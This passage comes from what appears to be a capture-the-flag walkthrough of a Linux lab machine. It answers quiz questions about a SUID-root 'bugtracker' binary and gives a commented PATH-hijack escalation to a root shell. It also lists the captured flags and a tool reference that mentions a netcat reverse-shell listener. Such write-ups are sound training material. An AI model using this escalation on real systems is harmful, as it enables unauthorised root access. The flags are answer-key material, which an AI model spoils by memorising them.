/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

**Q8 - Regardless of who starts `bugtracker`, which user's privileges does it run with?**
**Answer:** `root`

- **Finding:** `rws` for the owner triplet (`rwx` position replaced by `s`).
- **Interpretation**: SUID means Set User ID (often written SetUID). On an executable, it instructs Linux to run the program with the effective user ID of the file owner. Here, that owner is `root`, so execution context is elevated to root privileges.

**Q9 - What does SUID stand for?**
**Answer:** `Set User ID`

Running the file again and entering an unexpected value of `1337` produces this output:
```text
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1337
1337
---------------

cat: /root/reports/1337: No such file or directory
```

The insecurely called executable is `cat`. It appears to be invoked without an absolute path, enabling PATH hijack in this SUID context.

**Q10 - What is the name of the executable that is called in an insecure manner?**
**Answer:** `cat`

```bash
# Move to a writable location where we can drop a fake executable.
cd /tmp

# Create a fake `cat` that spawns a preserved-privilege shell.
printf '#!/bin/bash\n/bin/bash -p\n' > cat

# Make the fake `cat` executable.
chmod +x cat

# Prepend /tmp so our fake `cat` is resolved before /bin/cat.
export PATH=/tmp:$PATH

# Run the SUID binary so it invokes our fake `cat` as root.
/usr/bin/bugtracker
```

How this works:

- `printf '#!/bin/bash\n/bin/bash -p\n' > cat` writes a two-line shell script into a file named `cat` in the current directory.
- The first line, `#!/bin/bash`, is the shebang. It tells the kernel to execute this file with Bash when the file is launched as a program.
- The second line, `/bin/bash -p`, starts Bash in privileged mode. The `-p` flag matters because it tells Bash to preserve the effective UID and GID it inherited instead of dropping them.
- Because `bugtracker` is SUID-root and appears to invoke `cat` without an absolute path, command lookup follows the current `PATH`.
- After `export PATH=/tmp:$PATH`, the shell resolves `/tmp/cat` before `/bin/cat`, so the attacker-controlled script runs in place of the real utility.
- Since the calling process has effective root privileges, and the replacement script immediately runs `bash -p`, the resulting shell retains those elevated privileges.

Post-exploitation note: after reading flags, remove `/tmp/cat` and restore `PATH` to prevent command resolution issues.

---

## Flags and Final Access

User: `f2c74ee8db7983851ab2a96a44eb7981`
Root: `af13b0bee69f8a877c3faf667f7beacf`

---

## Additional Learning Resources

### Tools Used

- **`nmap`**: initial host and service enumeration to identify the exposed HTTP and SSH attack surface.
- **`curl`**: raw HTTP inspection to capture headers, page content, redirects, and application clues directly from the response.
- **`gobuster`**: directory brute-forcing to enumerate reachable web paths with a wordlist.
- **`ffuf`**: fast content discovery and response filtering, useful for separating interesting results from routine noise.
- **`nikto`**: quick web server assessment for common misconfigurations and known risky patterns.
- **`nc`**: listener for the reverse shell triggered through the uploaded PHP payload.
- **`find`**: local filesystem enumeration after foothold, especially useful for locating files by ownership and group.

### Useful Command Switches

- **`nmap -sC -sV $boxip`**
  - `-sC` runs the default NSE script set for standard service checks.
  - `-sV` probes open ports to identify the service and version in use.
- **`curl -i http://$boxip`**
  - `-i` includes the HTTP response headers along with the body, which is useful for seeing server banners, cookies, and status codes.
- **`gobuster dir -u http://$boxip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`**
  - `dir` selects directory enumeration mode.
  - `-u` sets the target URL.
  - `-w` supplies the wordlist used for discovery.
- **`ffuf -u http://$boxip/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -mc 200,301,302,403`**
  - `-u` defines the target template, with `FUZZ` marking the injection point for wordlist entries.
  - `-w` sets the wordlist.
  - `-mc` filters matches to the chosen HTTP status codes so interesting paths are easier to spot.
- **`nikto -h http://$boxip -C all`**
  - `-h` sets the target host.
  - `-C all` tests all CGI directories Nikto knows about, which broadens coverage during web assessment.
- **`nc -lvnp 4444`**
  - `-l` listens for an incoming connection.
  - `-v` enables verbose output.
  - `-n` avoids DNS resolution delays by using numeric addresses only.
  - `-p` specifies the listening port.
- **`find / -type f -group bugtracker 2>/dev/null`**
  - `-type f` restricts results to regular files.
  - `-group bugtracker` filters for files owned by the `bugtracker` group.
  - `2>/dev/null` suppresses noisy permission-denied errors from stderr.

### Suggested References

- [Nmap Reference Guide](https://nmap.org/book/man.html)
- [curl Manual](https://curl.se/docs/manpage.html)
- [Gobuster GitHub Repository](https://github.com/OJ/gobuster)
- [ffuf usage and options](https://github.com/ffuf/ffuf)
- [Nikto project documentation](https://github.com/sullo/nikto)
- [GNU find Manual](https://www.gnu.org/software/findutils/manual/html_node/find_html/Invoking-find.html)
- [Linux file permissions and SUID](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [PATH command search behavior in Bash](https://www.gnu.org/software/bash/manual/bash.html#Command-Search-and-Execution)
- [OWASP Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
